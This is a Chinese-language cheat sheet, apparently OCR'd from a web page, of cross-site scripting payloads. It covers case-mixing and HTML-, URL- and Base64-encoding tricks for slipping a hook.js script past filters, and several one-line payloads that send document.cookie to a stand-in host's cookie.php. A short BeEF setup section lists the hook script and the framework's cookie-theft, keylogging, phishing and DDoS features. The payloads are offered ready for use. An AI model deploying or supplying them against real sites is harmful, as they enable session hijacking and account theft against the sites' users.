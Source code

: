 ```html
<!-- 大小写 -->
<ScrIpt>alert("xss")</SCRipT>
<!-- 字符编码 HTML 编码、URL 编码、Base64 编码等 -->
<a href="&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x78;&#x78;&#x78;&#x2e;&#x78;&#x78;&#x78;&#x2e;&#x78;&#x78;&#x78;&#x2e;&#x78;&#x78;&#x78;&#x2f;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x6a;&#x73;">leon</a>
<a href="%68%74%74%70%3a%2f%2f%78%78%78%2e%78%78%78%2e%78%78%78%2e%78%78%78%2f%68%6f%6f%6b%2e%6a%73"></a>
<a href="aHR0cDovL3h4eC54eHgueHh4Lnh4eC9ob29rLmpz"></a>

<!-- 打开新窗口并采用本地 cookie 访问目标网页 -->
<script>window.open("http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie)</script>
<script>document.location="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie</script>
<script>new Image().src="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie;</script>
<img src="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie></img>
<iframe src="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie></iframe>
```

### BeEF

基于 Ruby.2.5 的 XSS 漏洞利用工具，需要安装 bundle

`git clone https://github.com/beefproject/beef.git`

`bundle install`

默认登陆页`http://xxx.xxx.xxx.xxx:3000/ui/panel`

默认 JS 脚本 `<script src="xxx.xxx.xxx.xxx/hook.js"></script>`

Browser Exploitation Framework(BeEF)：时目前最强大的浏览器开源渗透测试框架，通过 XSS 漏洞配合 JS 脚本和 Metasploit 进行渗透。

信息收集：

1. 网络发现
2. 主机信息
3. Cookie 获取
4. 会话劫持
5. 键盘记录
6. 插件信息

持久化控制：

1. 确认弹框
2. 小窗口
3. 中间人

社会工程：

1. 点击劫持
2. 弹窗警告
3. 虚假页面
4. 钓鱼页面

渗透测试：

1. 内网渗透
2. Metasploit
3. CSRF 攻击
4. DDOS 攻击
